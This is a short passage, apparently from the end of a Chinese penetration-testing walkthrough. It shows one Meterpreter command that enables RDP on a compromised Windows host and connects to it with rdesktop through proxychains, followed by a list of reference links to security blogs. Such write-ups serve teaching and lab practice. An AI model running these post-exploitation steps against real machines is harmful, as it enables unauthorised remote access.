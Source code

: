 ------

## 远程登录

```
(meterpreter)run post/windows/manage/enable_rdp proxychains rdesktop 192.168.183.130
```

![img](assets/1695035085551-670be646-d6e2-4739-b362-add96878b68d.png)

------

# 参考

https://www.freebuf.com/articles/container/242763.html

https://www.freebuf.com/company-information/205006.html

https://www.cnblogs.com/yuzly/p/10859520.html

https://www.cnblogs.com/yuzly/p/10859520.html

https://blog.csdn.net/qq_39717726/article/details/89304337

https://blog.csdn.net/qq_41874930/article/details/111926058